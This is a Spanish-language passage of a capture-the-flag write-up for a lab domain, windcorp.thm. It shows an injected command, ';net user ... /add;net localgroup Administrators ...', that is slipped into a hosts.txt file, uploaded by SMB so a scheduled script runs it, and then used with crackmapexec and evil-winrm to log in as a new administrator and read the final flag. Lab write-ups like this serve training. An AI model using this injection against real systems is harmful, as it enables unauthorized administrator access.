Una vez en nuestro poder el archivo, tenemos que modificarlo y agregarle una consulta a powershell para que nos cree un nuevo usuario con privilegios de Administrador.

```bash
nano hosts.txt

;net user ggh YouArePwned! /add;net localgroup Administrators ggh /add
```

Pasaremos a poner el archivo nuevamente al smbclient y esperaremos alrededor de 3-5 min para que se el script obtenga el contenido de hosts.txt. El script funciona cada 45 segundos, pero nunca esta de mas esperar un poco extra.

```bash
smbclient: \brittanycr\> put hosts.txt
```

Utilizamos nuevamente crackmapexec para saber si todo salio correctamente seguido de ejectuar nuevamente `evil-winrm` para acceder al directorio **Administrator** y obtener nuestra ultima flag!

```bash
crackmapexec smb windcorp.thm -u ggh -p YouArePwned!

SMB         windcorp.thm    445    FIRE             [*] Windows 10.0 Build 17763 
SMB         windcorp.thm    445    FIRE             [+] windcorp.thm\ggwindcorp.thm\ggh:YouArePwned! (Pwn3d!)

## Evil-WinRM

evil-winrm -u ggh -p YouArePwned! -i windcorp.thm

Evil-WinRM* PS C:\Users\ggh\Documents> cd C:\Users\Administrator\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/7/2020   1:22 AM             47 Flag3.txt

```

